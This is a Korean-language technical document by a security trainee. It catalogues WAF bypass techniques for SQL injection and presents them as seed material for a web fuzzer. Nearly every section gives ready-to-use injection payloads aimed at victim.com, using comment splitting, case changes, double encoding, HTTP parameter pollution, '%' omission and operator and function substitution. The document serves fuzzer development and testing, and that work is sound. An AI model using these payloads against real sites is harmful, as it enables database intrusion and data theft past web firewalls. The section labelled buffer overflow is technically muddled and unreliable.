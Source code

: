 # Web Fuzzer WAF 우회 기법 분석

**작성자: BoB 보안제품개발 9기 한승훈**

본 문서는 Web Fuzzer 제작시 시드파일에서 활용가능한 WAF우회기법들을 정리한 문서임.

해당 문서를 기반으로 WAF를 우회하기 위한 다양한 시드파일 제작이 필요함.



## 일반 우회 & 공격기법

일반적으로 대부분의 서버 및 WAF 환경에서 사용 가능한 공격 우회 기법에 대해 기술하였다.



### 1. 주석 처리 기법

: 중간 공격 키워드 가운데 주석을 삼입함으로써 WAF우회

```
http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3.....

http://victim.com/news.php?id=1+/*!union*/ /*!select*/ 1,2,3,4….
```



### 2. 대소문자 교체 기법

: 방화벽 필터설정이 다음과 같을 때 /union\select/g 공격 키워드의 대소문자를 변경하여 WAF우회

```
http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3...
```



### 3. 키워드 대체 기법

: 웹방화벽의 ``union``, ``select`` 차단을 역이용하여 공격 키워드 WAF우회

```
http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--
```



### 4. 문자 인코딩 기법

: 공격 키워드가 포함된 명령을 인코딩 후 WAF이후에 디코딩하여 WAF우회

```
http://victim.com/news.php id=1%252f%252a*/union%252f%252a/select%252f%252a*/1,2,3%252f%252a*/from%252f%252a*/users--
http://victim.com/news.php?id=1/**/union/*/select/**/1,2,3/**/from/**/users--
```



### 5. BOF 공격 기법

: 서버의 BOF 유도를 통해 서비스를 공격

```
http://victim.com/news.php?id=1+and+(select 1)=(select 0x414141414141441414141414114141414141414141414141414141414141414141.)+union+select+1,2,version(),database(),user(),6,7,8,9,10--
```



## 고급 우회 & 공격 기법

특정 서버 및 WAF 환경에서 사용가능한 복잡한 공격기법에 대해 서술하였다.



### 1. HTTP 파라미터 분할 및 병합 우회 기법

: 특정 웹서버에서 HTTP 파라미터를 처리하는 방식을 악용에 WAF를 우회하는 방법

| Web Server 종류 |      Parameter 해석기법      |      예시      |
| :-------------: | :--------------------------: | :------------: |
|   ASP.NET/IIS   |    Concatenation by comma    | par1=val1,val2 |
|     ASP/IIS     |    Concatenation by comma    | par1=val1,val2 |
|   PHP/Apache    | The last param is resulting  |   Par1=val2    |
|   JSP/Tomcat    | The first param is resulting |   par1=val1    |
|   Perl/Apache   | The first param is resulting |   par1=val1    |



#### Example) ASP / ASP.NET's 환경에서의 공격 예시

```
http://www.example.com/search.aspx?q=select name&q=password from users 
```

* SQL Injection 공격 시도를 다음과 같이 파라메터 q에 분할하여 전송

* ASP/ASP.NET's 에서는 파라메터 q를 합쳐서 q= select name,password from users 로 인식하게 됨.



### 2. 문자 생략 기법

: 특정 웹서버에서 HTTP 파라미터를 생략하는 로직을 악용에 WAF를 우회하는 방법

* character “%“는 ASP/ASP.NET에서 생략되어 인식됩니다.

* 아래와 같이 정형화된 SQL문을 시도할 경우 방화벽에서 탐지가 되는데, SQL문 중간에 “%” 삽입을 통해 우회가 가능합니다.

```
http://victim.com/news.asp?id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
```



### 3. 필터링 키워드 우회기법

: 특정 웹서버의 필터링 정책의 허점을 활용



#### 3.1 and, or 키워드 우회

* 다음과 같은 SQL 공격 시도시 and, or 을 ||, && 로 대체하여 우회 성공 가능성 높음.

```
Filtered injection: “1 or 1 = 1”, “1 and 1 = 1”
Bypassed injection:  “1 || 1 = 1” “1 && 1 = 1”
```

* 또한 union의 경우도 다음과 같은 우회 방법이 존재함.

```
Filtered injection:	union select user, password from users
Bypassed injection: 1 || (select user from users where user_id = 1) = 'admin'
```



#### 3.2 함수 키워드 우회

SQL Injection 공격에 자주 사용되는 함수를 사용할 경우 WAF에서 쉽게 필터링 함.

이 경우, 자주 사용되는 함수를 비슷한 함수로 변경하여 우회가 가능.

- substring() → mid(), substr(), etc
- ascii() → hex(), bin(), etc
- benchmark() → sleep()

```
Ex)Know:
substring((select 'password'),1,1) = 0x70
substr((select 'password'),1,1) = 0x70 
mid((select 'password'),1,1) = 0x70

New:
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```


